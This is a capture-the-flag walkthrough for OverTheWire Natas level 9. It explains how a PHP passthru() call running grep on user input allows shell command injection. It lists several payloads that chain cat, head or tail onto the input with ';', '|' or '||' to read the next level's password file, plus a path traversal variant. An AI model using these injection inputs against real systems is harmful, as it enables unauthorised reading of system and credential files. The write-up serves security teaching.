








# 🕸️Natas Level 9 → Level 10

```
http://natas9.natas.labs.overthewire.org
```
Username: natas9  
Password: (natas9_password)



`Ctrl + U` can help you uncover interesting clues — `index-source.html` looks particularly worth checking out.



We found the ``passthru()`` function, which runs a standard `grep -i $key dictionary.txt`, where ``$key`` comes directly from user input obtained via `needle`.  

In PHP, the ``passthru()`` function is used to execute an external program or command and directly output the raw result to the browser (or the standard output).



Now, we can test it by typing `test` in the input box and pressing Enter. 



It returns every word from `dictionary.txt` that contains the string `test`, which is the expected behavior of the `grep` command.


### 💉what is shell injection?
**Shell injection** (or command injection) is named after UNIX shells but applies to most systems that allow software to programmatically execute a command line.


Now, we’ll inject our command by replacing test with the payload we want.
```
;cat+/etc/natas_webpass/natas10
```
The ``;`` in the shell is used to separate multiple commands. It signals the end of the previous command and the start of a new command, allowing you to run them sequentially on a single line.  
The `+` in a URL query string is interpreted as a space in the context of URL-encoded form data.
So `cat+/etc/natas_webpass/natas10` → `cat /etc/natas_webpass/natas10` when the server reads the needle parameter.



The flag should be revealed after pressing Enter.



Here are more examples we can use to achieve the same result.
```
;cat%20/etc/natas_webpass/natas10
```
`%20` is the percent-encoded representation of a space character in URLs.
So `cat%20/etc/natas_webpass/natas10` → `cat /etc/natas_webpass/natas10` when decoded by the server.
```
|cat%20/etc/natas_webpass/natas10
||cat+/etc/natas_webpass/natas10
;more%20/etc/natas_webpass/natas10
;less+/etc/natas_webpass/natas10
;head%20/etc/natas_webpass/natas10
||tail+/etc/natas_webpass/natas10
```


### 💡 Handy percent-encodings for URLs you should know!


🛤️ You can also solve this challenge in a different way.

### 🧭 What is a Path Traversal Attack?
A **path traversal attack** (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths.
```
;cat ../../../../../etc/natas_webpass/natas10
```



Awesome work! You’ve got the flag needed for the next challenge.


